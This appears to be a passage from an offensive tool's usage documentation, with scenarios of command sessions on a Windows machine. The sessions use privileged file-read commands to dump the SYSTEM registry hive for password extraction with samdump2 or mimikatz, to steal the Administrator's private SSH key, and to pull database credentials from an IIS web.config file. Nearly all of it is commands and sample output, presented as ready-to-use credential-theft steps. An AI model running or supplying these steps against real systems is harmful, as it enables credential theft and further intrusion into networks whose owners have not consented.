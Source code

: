 ```bash
> priv_read_file C:\Windows\System32\config\SYSTEM

Response:
[+] File read successfully
[+] Content: [SYSTEM file contents]

# Now you can use tools like samdump2 or mimikatz to extract passwords
```

### Scenario 2: Stealing SSH Keys from Admin Account

```bash
# Step 1: List admin's .ssh directory
> priv_list_dir C:\Users\Administrator\.ssh

Response:
[+] Directory listed successfully
FILES:
  [FILE] id_rsa (3243 bytes)
  [FILE] id_rsa.pub (743 bytes)
  [FILE] known_hosts (1024 bytes)

# Step 2: Read private SSH key
> priv_read_file C:\Users\Administrator\.ssh\id_rsa

Response:
[+] File read successfully
============================================================
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA2xKJ9...
[Private key content]
-----END RSA PRIVATE KEY-----
============================================================

# Step 3: Save the key and use for authentication
```

### Scenario 3: Reading IIS Web Configuration (Credentials)

```bash
# List IIS directory
> priv_list_dir C:\inetpub\wwwroot

# Read web.config (contains database credentials)
> priv_read_file C:\inetpub\wwwroot\web.config

Response:
[+] File read successfully
============================================================
<?xml version="1.0"?>
<configuration>
  <connectionStrings>
    <add name="DefaultConnection"
         connectionString="Server=db-server;Database=webapp;
         User Id=db_admin;Password=SecurePass123!;" />
  </connectionStrings>
</configuration>
============================================================

# Now you have database credentials!
```
